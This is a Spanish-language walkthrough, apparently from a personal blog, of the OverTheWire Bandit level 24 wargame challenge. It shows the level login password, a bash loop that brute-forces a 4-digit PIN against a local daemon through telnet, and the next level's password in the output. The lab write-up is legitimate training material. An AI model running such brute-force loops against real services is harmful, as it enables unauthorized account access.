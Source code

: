 ```yaml
---
title: Bandit-24 🔥
published: true
---
```


## [](#header-1)Login

```bash
sshpass -p UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ \
ssh bandit24@bandit.labs.overthewire.org -p2220
```

## [](#header-1)Level Goal

```
A daemon is listening on port 30002 and will give you the password for bandit25
if given the password for bandit24 and a secret numeric 4-digit pincode. 
There is no way to retrieve the pincode except by going through all of the 10000 combinations,
called brute-forcing.
```

Vemos que haciendo un telnet al puerto 30002 nos responde

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 
and the secret pincode on a single line, separated by a space.
```

Nos solicita la pass de bandit24 y un código de 4 digitos. Hacemos una prueba

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
Wrong! Please enter the correct pincode. Try again.
```

Como dice el reto hay 10000 combinaciones, asi que vamos a automatizarlo con el siguiente
script en bash en una linea

```bash

# Hacemos una pausa de 0.05 para no tener problemas con telnet
# ejecutamos mediante un for un echo con la pass y el indice (0000-9999)
# y de ese echo lo ejecutamos via telnet

{ for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"; sleep 0.05;  done; } | telnet localhost 30002
```

La salida que muestra usando la fuerza bruta

```
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
Connection closed by foreign host.
```

La pass de bandit25 es:

```
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```




[Volver al archivo](archive)
